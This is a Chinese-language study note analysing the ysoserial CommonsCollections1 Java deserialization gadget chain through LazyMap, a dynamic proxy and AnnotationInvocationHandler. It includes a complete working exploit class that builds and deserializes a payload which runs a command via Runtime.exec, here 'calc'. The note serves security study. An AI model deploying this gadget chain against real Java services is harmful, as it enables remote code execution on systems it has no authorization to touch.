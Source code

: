 # Java 反序列化之 CC1
这一篇还是记录一下 ysoserial 的正版 CC1！

**前置知识：**

1. 动态代理
2. 正版cc1


## 正版 CC1 链分析

### 1.寻找链尾的 exec 方法

- 漏洞点还是 `InvokerTransformer#transform()`，在该方法处进行 find usages 操作。

> 上一篇说的是 TransformedMap 的链子，今天则是正版 CC1 链里面的 LazyMap 链子

然后发现`LazyMap#get()`调用了 `transform()` 方法！


### 2.寻找链子

`get()`中的 `factory` 调用了 transform() ，所以现在去找 `factory` 是什么。


追踪发现，`factory` 是 LazyMap 的一个成员变量（protected），同时 LazyMap 的 `decorate()` 静态方法可以实例化一个 LazyMap 类对象，并且可以控制 `factory` 的值。

 为什么关注decorate()方法呢？因为 LazyMap 的构造函数是 `private`，所以无法直接获取，而 `decorate()` 最后可以实例化一个`LazyMap` 对象。继续寻找谁调用了get()方法。

最终在 `AnnotationInvocationHandler.invoke()` 方法中找到了有一个地方调用了 `get()` 方法。 

> 过于夸张，一共有2871个结果，不知道漏洞的发现者到底是如何找到这条链的。。。如果沒有找到 AnnotationInvocationHandler 的话，可以按住 ctrl+shift+r 开启全局搜索 AnnotationInvocationHandler

同时这个类也非常好，它里面有 `readObject()` 方法，可以作为我们的入口类。

最后的问题是怎样通过 `readObject()` 触发 `invoke()`？

需要触发 `invoke()` 方法，马上想到动态代理，一个类被动态代理了之后，当通过代理调用该类方法时，会自动调用对应的调用处理器的 `invoke()` 方法。

**readObject()中有什么方法和动态代理相关吗？**


 `readObject()` 中调用了 `memberValues.entrySet()` 方法。也就是说，如果我们将 `memberValues` 的值改为动态代理类实例，那么当调用entrySet()时就会自动执行调用处理器的 `invoke()` 方法了，这样就完成了整条链子的调用。

**最终的 exp 如下，建议反复观摩学习🤭**

```java
package org.example;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Method;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

// 正版 CC1 链最终 EXP
public class Main {

        public static void main(String[] args) throws Exception{

                Transformer[] transformers = new Transformer[]{
                        new ConstantTransformer(Runtime.class), // 构造 setValue 的可控参数
                        new InvokerTransformer("getMethod",
                                new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                        new InvokerTransformer("invoke"
                                , new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                        new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
                };

                ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
                HashMap<Object, Object> hashMap = new HashMap<>();
                Map decorateMap = LazyMap.decorate(hashMap, chainedTransformer);

                // 通过反射实例化一个 AnnocationInvocationHandler 类对象
                Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
                Constructor declaredConstructor = c.getDeclaredConstructor(Class.class, Map.class);
                declaredConstructor.setAccessible(true);
                InvocationHandler invocationHandler = (InvocationHandler) declaredConstructor.newInstance(Target.class, decorateMap);

                //生成动态代理类对象
                Map proxyMap = (Map) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader()
                        , new Class[]{Map.class}, invocationHandler);

                // 实例化一个 AnnotationInvocationHandler 类对象并进行序列化，之后反序列化时就会调用到 AnnotationInvocationHandler 类的 readObject 方法
                InvocationHandler invocationHandler1 = (InvocationHandler) declaredConstructor.newInstance(Override.class, proxyMap);

                serialize(invocationHandler1);
                unserialize("ser.bin");


        }
        public static void serialize(Object obj) throws IOException {
                ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
                oos.writeObject(obj);
        }
        public static Object unserialize(String Filename) throws IOException, ClassNotFoundException{
                ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
                Object obj = ois.readObject();
                return obj;
        }

}

```

~~EXP 最后又新建了一个 InvocationHandler1 实例并将这个实例反序列化，这一步目前真的不明白。~~

>再一次学习动态代理后我大概理解了 exp 的操作，反序列化后会调用 invocationHandler1 的 readObject() 方法，而 invocationHandler1 的 memberValues 传入的是一个代理类对象 proxyMap，所以在AnnotationInvocationHandler 类的 444 行调用 memberValues.entrySet() 方法时调用的是 proxyMap.entrySet() ，根据动态代理相关知识，这里会自动调用和这个 proxyMap 相关联的调用处理器的 invoke() 方法。
和 proxyMap 相关联的调用处理器是 invocationHandler，所以会调用 invocationHandler 的 invoke() 方法，而 invocationHandler 又是 AnnotationInvocationHandler 类对象，所以会调用该类的 invoke() 方法，最终在这个方法里面调用了 memberValues.get(member);
而此时的 memberValues 是 decorateMap，这样就接上了我们的链子。


1. 最后会调用到 LazyMap 的 get 方法，传入的参数值是 `entrySet`
2. 之后调用 factory.transfrom(key)，factory为 chainedTransformer，key 为 entryset
3. 上一步的 key 是 entryset ，经过 chainedTransformer 的 transform 方法转换之后 key 首先变成了 Runtime.class，之后就是变成 InvokerTransformer 命令执行所需的一系列对象，最终导致命令执行


## 参考链接

[芜风师傅](https://drun1baby.github.io/2022/06/10/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Commons-Collections%E7%AF%8702-CC1%E9%93%BE%E8%A1%A5%E5%85%85/)

[ysoserial-CommonsCollections](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections1.java)

